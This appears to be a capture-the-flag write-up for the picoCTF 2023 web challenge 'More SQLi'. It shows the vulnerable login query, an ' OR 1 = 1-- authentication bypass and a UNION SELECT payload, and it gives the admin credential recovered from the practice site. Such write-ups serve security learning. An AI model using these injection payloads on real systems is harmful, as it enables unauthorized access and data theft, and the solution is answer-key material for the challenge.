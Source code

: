# More SQLi #

## Overview ##

200 points

Category: [web](../)

Tags: `picoCTF 2023` `Web Exploitation` `sql`

## Description ##

Can you find the flag on this website. Try to find the flag here.

## Solution ##

Query is

```
SQL query: SELECT id FROM users WHERE password = 'inputPass' AND username = 'inputUser'
```

Can bypass and select first user by doing setting the password as `' OR 1 = 1--

```
SQL query: SELECT id FROM users WHERE password = '' OR 1 = 1--' AND username = 'inputUser'
```

Which is the same as 

```
SQL query: SELECT id FROM users WHERE password = '' OR 1 = 1--
```

Afterwards can select a bunch of cities,
using `'OR 1 = 1--` selects all, try union

`' UNION SELECT * FROM users--`

User: `admin`
Password `moreRandOMN3ss`
